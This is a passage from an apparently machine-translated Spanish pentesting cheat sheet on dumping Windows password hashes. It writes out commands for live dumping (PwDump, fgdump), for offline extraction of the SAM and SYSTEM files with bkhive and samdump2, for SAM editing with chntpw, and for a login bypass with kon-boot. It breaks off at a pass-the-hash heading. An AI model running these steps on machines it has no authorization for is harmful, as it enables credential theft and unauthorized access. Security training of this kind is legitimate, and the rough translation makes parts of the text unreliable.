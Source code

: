 #### Localmente: <a href="#locally" id="locally"></a>

→ Aquí necesita acceso físico a la máquina. En este punto hay dos casos:

* Sistema de ejecución: En este caso, se requiere una cuenta de administrador local para descargar hashes de la memoria

```
If you want to steal hashes from a running system, you must have at least Administrator Privileges.
Some situation we cannot reboot the machine of the target For various reasons.
```

De todos modos, si tienes el acceso correcto podemos utilizar algunas herramientas:

```
	PwDump.exe localhost
	fgdump.exe
	SAMinside
	ophcrack
```

* Sistema fuera de línea: En este caso, los hashes de las contraseñas se descifran del archivo de almacenamiento de contraseñas sin conexión SAM. La clave para descifrar SAM se almacena en el archivo SYSTEM. Si tiene acceso físico a la máquina sin conexión, tiene más opciones que solo hashes.

Monte la partición donde está instalado Windows:

```
mkdir /mnt/sda1
mount -t ntfs /dev/sda1 /mnt/sda1
cd /mnt/sda1/WINDOWS/system32/config
```

Con los hashes en la mano:

```
bkhive SYSTEM syskey.txt
samdump2 SAM syskey.txt > dummpedhash.txt
```

```
Ophcrack live CD: <this seems so old>
	just boot and the hashes will appear
	u can grab and crack later
```

* también podemos cambiar el contenido del archivo SAM en lugar de robar chntpw > borrar contraseñas, cambiar contraseñas, promover usuarios a administradores
* Omitir el inicio de sesión de Windows kon-boot es un software que permite cambiar el contenido de un kernel de Linux y Windows Permite iniciar sesión en un sistema como usuario root sin escribir la contraseña correcta o elevar los privilegios del usuario actual a root.

#### ¿Qué hacer con Hashes? <a href="#what-to-do-with-hashes" id="what-to-do-with-hashes"></a>

→ Pasa el hachís

Con Metasploit:
